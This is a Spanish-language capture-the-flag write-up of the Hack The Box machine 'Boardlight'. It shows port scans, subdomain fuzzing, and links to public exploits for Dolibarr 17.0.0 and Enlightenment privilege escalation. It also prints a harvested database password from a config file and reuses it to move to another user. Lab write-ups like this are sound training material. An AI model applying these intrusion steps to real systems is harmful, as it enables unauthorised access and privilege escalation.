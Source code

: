 ```yaml
---
title: Boardlight Writeup
author: l0n3
date: 2025-03-23
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, Dolibarr 17.0.0 exploitation]
---
```


![image](https://github.com/user-attachments/assets/dd6c7912-885e-472c-8d95-5578b48f6380)


```bash
# Nmap 7.95 scan initiated Sun Mar 23 09:38:14 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -n -vvv -Pn -oG ports 10.10.11.11
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.11 ()    Status: Up
Host: 10.10.11.11 ()    Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Sun Mar 23 09:38:32 2025 -- 1 IP address (1 host up) scanned in 18.40 seconds
```

Puertos 22 y 80 abiertos. Por lo tanto realizo un nmap para ver las versiones que corren en estos. 

```bash
# Nmap 7.95 scan initiated Sun Mar 23 09:38:57 2025 as: /usr/lib/nmap/nmap --privileged -p22,80 -sCV -oN versions 10.10.11.11
Nmap scan report for 10.10.11.11
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 23 09:39:20 2025 -- 1 IP address (1 host up) scanned in 23.24 seconds
```

Al realizar un directory listing solo me mostro los directorios, js, css e images. Nada importante, asique veo de hacer un crawling de los subdomains y este fue el resultado.

```bash
$ ffuf -u http://board.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" -fl 518

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 518
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 228ms]
```

Vemos un crm ahi con status code 200.

![image](https://github.com/user-attachments/assets/40c054cd-9f50-41d1-bacb-2cacd0e1b10d)

Lo primero que llama la atencion es ver la version, por lo que podemos hacer una pequeña busqueda, y ver que es dolibarr y su latest version.

```bash
**Dolibarr ERP/CRM** es un software de [Planificación de Recursos Empresariales] (PRE, ERP en inglés)
```

Exploit en dolibarr 17.0.0 PHP cammand injection

```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

![image](https://github.com/user-attachments/assets/3870ce3b-0b2f-4494-ac45-e95612f43a7c)

Tenemos que migrar al user larissa que vemos en el /etc/passwd para poder tener la primer flag.

si busco recursivamente en el directorio en el cual estoy situado por algun archivo conf para ver si hay credenciales, obtengo lo siguiente.
```bash
www-data@boardlight:~/html/crm.board.htb$ find . -name \*conf\* 2>/dev/null
```

```bash
./htdocs/public/project/suggestconference.php
./htdocs/theme/common/fontawesome-5/svgs/brands/confluence.svg
./htdocs/theme/common/fontawesome-5/js/conflict-detection.js
./htdocs/theme/common/fontawesome-5/js/conflict-detection.min.js
./htdocs/theme/md/ckeditor/config.js
./htdocs/theme/eldy/ckeditor/config.js
./htdocs/includes/ckeditor/ckeditor/bender-runner.config.json
./htdocs/includes/ckeditor/ckeditor/build-config.js
./htdocs/includes/ckeditor/ckeditor/config.js
./htdocs/includes/ckeditor/ckeditor/plugins/exportpdf/tests/manual/configfilename.html
./htdocs/includes/ckeditor/ckeditor/plugins/exportpdf/tests/manual/configfilename.md
./htdocs/includes/ckeditor/ckeditor/plugins/smiley/images/confused_smile.png
./htdocs/includes/ckeditor/ckeditor/plugins/smiley/images/confused_smile.gif
./htdocs/includes/tecnickcom/tcpdf/tcpdf_autoconfig.php
./htdocs/includes/tecnickcom/tcpdf/config
./htdocs/includes/tecnickcom/tcpdf/config/tcpdf_config.php
./htdocs/install/mysql/data/llx_holiday_config.sql
./htdocs/install/fileconf.php
./htdocs/admin/eventorganization_confbooth_extrafields.php
./htdocs/admin/eventorganization_confboothattendee_extrafields.php
./htdocs/conf
./htdocs/conf/conf.php.old
./htdocs/conf/conf.php.example
./htdocs/conf/conf.php
```

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

aca -> $dolibarr_main_db_pass='serverfun2$2023!!'; 
vemos esta contraseña la cual podemos ver si se esta reutilizando en el user larissa.

y asi era.

```bash
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
```

-----------------------------

```bash
searchsploit enlightenment      

Exploit Title  

Enlightenment - Linux Null PTR Dereference Framework                   
Enlightenment v0.25.3 - Privilege escalation
```

y en la maquina vemos que correo la version XX

```bash
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00000 [0.00000] - Begin Startup
ESTART: 0.00005 [0.00004] - Signal Trap
ESTART: 0.00006 [0.00001] - Signal Trap Done
ESTART: 0.00007 [0.00001] - Eina Init
ESTART: 0.00027 [0.00019] - Eina Init Done
ESTART: 0.00029 [0.00002] - Determine Prefix
ESTART: 0.00041 [0.00012] - Determine Prefix Done
ESTART: 0.00043 [0.00002] - Environment Variables
ESTART: 0.00044 [0.00001] - Environment Variables Done
ESTART: 0.00045 [0.00001] - Parse Arguments
Version: 0.23.1
```

por lo tanto tenemos una via de explotacion en la version de este binario para escalar privilegios.

```bash
https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
```

En el directorio /tmp metemos el script, le damos permiso de ejecucion y lo ejecutamos.


![image](https://github.com/user-attachments/assets/210ed71c-12ea-4730-a12d-ad3929a8122d)

Por lo que ahora si ganamos la segunda y ultima flag para terminar la maquina.

